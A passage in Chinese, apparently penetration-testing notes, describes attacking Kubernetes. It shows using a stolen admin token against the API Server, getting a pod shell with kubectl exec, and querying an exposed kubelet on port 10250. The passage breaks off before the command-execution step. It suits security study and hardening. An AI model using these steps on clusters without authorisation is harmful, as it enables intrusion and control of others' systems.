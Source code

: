 ## kubernetes

kubernetes 简称 k8s，简单理解是拿来自动化部署容器、管理容器的框架。

### API Server 攻击

当我们获取到 admin token 时，可以操作 API Server 来控制集群。

```bash
curl -H "Authorization: Bearer $TOKEN" $APISERVER/api  --insecure
```

也可以把 admin token 放置在~/.kube/config 文件中，然后利用命令行工具进行后续操作：

1.  `kubectl get namespaces`
2.  `kebectl get pods -n {namespaces}`
3.  `kubectl exec -it -n {namespace} {podname} /bin/sh`

### kubelet 10250 端口攻击

10250 端口是 kubelet API 的 HTTPS 端口，该端口提供了 pod 和 node 的信息，如果该端口对外开放，攻击者可以利用公开 api 来获取敏感信息，甚至执行命令。

```bash
curl -k https://host:10250/pods
```

![image-20201210191528031](assets/1700701638-7b21b537a7699f6e22712c0619a6cdfd.png)  
根据上述获取到的信息在容器中执行命令：
